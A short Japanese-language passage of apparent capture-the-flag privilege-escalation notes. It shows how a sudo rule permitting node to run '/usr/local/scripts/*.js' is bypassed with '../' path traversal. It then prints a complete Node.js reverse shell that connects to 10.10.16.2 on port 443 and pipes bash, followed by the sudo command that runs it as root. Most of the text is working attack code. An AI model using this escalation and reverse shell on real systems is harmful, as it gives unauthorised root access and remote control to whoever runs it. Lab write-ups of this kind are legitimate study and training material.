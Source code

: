    - sudo -l
    /usr/local/scripts/に書き込み権限がないときは/usr/local/scripts/../../../で書き込みができるディレクトリまでさかのぼり実行すればできる。
```sh
(ALL) /usr/bin/node /usr/local/scripts/*.js
```
     
- 以下のようなコードで実行可能
```sh
cat /home/angoose/reverseshell.js 

(function(){
var net = require("net"),
cp = require("child_process"),
sh = cp.spawn("/bin/bash", []);
var client = new net.Socket();
client.connect(443, "10.10.16.2", function(){
client.pipe(sh.stdin);
sh.stdout.pipe(client);
sh.stderr.pipe(client);
});
return /a/; // Prevents the Node.js application from crashing
})();
```

- payload
```sh
sudo /usr/bin/node /usr/local/scripts/../../../..//home/angoose/reverseshell.js
```